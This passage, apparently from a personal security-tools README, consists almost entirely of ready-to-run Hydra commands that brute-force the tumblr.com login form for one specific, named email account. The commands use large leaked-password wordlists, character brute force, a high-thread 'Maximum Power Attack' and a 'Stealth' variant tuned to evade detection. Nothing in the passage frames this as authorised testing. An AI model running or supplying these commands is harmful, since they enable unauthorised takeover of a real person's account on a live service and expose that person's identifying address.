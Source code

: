 #### RockYou Dictionary (14M passwords)
```bash
hydra -t 64 -l jonscottnelson@gmail.com -P rockyou.txt tumblr.com https-post-form "/login:email=^USER^&password=^PASS^:F=Your email or password was incorrect" -o rockyou_results.txt
```

#### CrackStation Dictionary (1.2B passwords)
```bash
hydra -t 64 -l jonscottnelson@gmail.com -P crackstation.txt tumblr.com https-post-form "/login:email=^USER^&password=^PASS^:F=Your email or password was incorrect" -o crackstation_results.txt
```

### 6. Brute Force Attacks

#### Alphanumeric Brute Force
```bash
hydra -t 32 -l jonscottnelson@gmail.com -x 1:6:a1 tumblr.com https-post-form "/login:email=^USER^&password=^PASS^:F=Your email or password was incorrect"
```

#### Dictionary + Brute Force
```bash
hydra -t 32 -l jonscottnelson@gmail.com -P comprehensive_final.txt -x 1:4:a1 tumblr.com https-post-form "/login:email=^USER^&password=^PASS^:F=Your email or password was incorrect"
```

### 7. All-in-One Commands

#### Maximum Power Attack
```bash
hydra -t 128 -v -f -l jonscottnelson@gmail.com -P ultimate_dictionary.txt tumblr.com https-post-form "/login:email=^USER^&password=^PASS^:F=Your email or password was incorrect" -o max_power_results.txt
```

#### Stealth Maximum Coverage
```bash
hydra -t 16 -w 3 -v -l jonscottnelson@gmail.com -P rockyou.txt tumblr.com https-post-form "/login:email=^USER^&password=^PASS^:F=Your email or password was incorrect" -o stealth_results.txt
```

## 🛠️ Enhanced MachineGun Tool

### Installation
```bash
cd /Users/deanman/cyber_sec_projects/tools/machinegun
```

### Basic Usage
```bash
python3 machinegun.py -u username -p password -t target --attack dictionary --dry-run --no-confirm
```
